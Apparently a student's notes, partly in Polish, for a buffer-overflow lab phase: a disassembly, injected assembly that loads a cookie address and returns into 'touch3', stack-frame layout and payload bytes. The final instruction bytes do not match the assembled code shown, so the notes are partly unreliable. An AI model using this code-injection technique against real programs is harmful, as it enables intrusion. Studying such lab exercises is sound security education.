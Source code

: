    0x0000000000401c09 <+48>:	sub    %rax,%rdx
   0x0000000000401c0c <+51>:	lea    (%rdx,%rdx,4),%rax
   0x0000000000401c10 <+55>:	lea    (%rax,%rax,4),%rdx
   0x0000000000401c14 <+59>:	lea    0x0(,%rdx,4),%rax
   0x0000000000401c1c <+67>:	sub    %rax,%rcx
   0x0000000000401c1f <+70>:	lea    (%rsp,%rcx,1),%r12
   0x0000000000401c23 <+74>:	mov    %ebp,%edx
   0x0000000000401c25 <+76>:	lea    0x1705(%rip),%rsi        # 0x403331
   0x0000000000401c2c <+83>:	mov    %r12,%rdi
   0x0000000000401c2f <+86>:	mov    $0x0,%eax
   0x0000000000401c34 <+91>:	callq  0x4011e0 <sprintf@plt>
   0x0000000000401c39 <+96>:	mov    $0x9,%edx
   0x0000000000401c3e <+101>:	mov    %r12,%rsi
   0x0000000000401c41 <+104>:	mov    %rbx,%rdi
   0x0000000000401c44 <+107>:	callq  0x401060 <strncmp@plt>
   0x0000000000401c49 <+112>:	test   %eax,%eax
   0x0000000000401c4b <+114>:	sete   %al
   0x0000000000401c4e <+117>:	movzbl %al,%eax
   0x0000000000401c51 <+120>:	add    $0x70,%rsp
   0x0000000000401c55 <+124>:	pop    %rbx
   0x0000000000401c56 <+125>:	pop    %rbp
   0x0000000000401c57 <+126>:	pop    %r12
   0x0000000000401c59 <+128>:	retq   

adres touch3
0x0000000000401c5a
5a 1c 40 00 00 00 00 00

movq    $0x5560A488, %rdi	# rdi to adres cookie
pushq   $0x0000000000401c5a    #   
retq

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 88 a4 60 55 	mov    $0x5560a488,%rdi
   7:	68 5a 1c 40 00       	pushq  $0x401c5a
   c:	c3                   	retq   
   
budujemy na podstawie zad 2:
Wizualizacja ramki stosu getbuf:
undef                 -> cookie jako string
undef                 -> adres touch3
adres powrotu do test -> adres początku inputu
buf                   -> padding
buf                   -> padding
buf(poczatek inputu)  -> movq %rsp+48, %rdi (rdi to adres cookie)

początek inputu: 0x5560a468 = 68 a4 60 55 00 00 00 00
adres cookie: 0x5560a468 + 0x20 = 0x5560A488
adres touch3 (little endian): 5a 1c 40 00 00 00 00 00
instrukcja: 48 c7 c7 90 a4 60 55 c3
cookie: 36 34 64 34 63 33 37 32
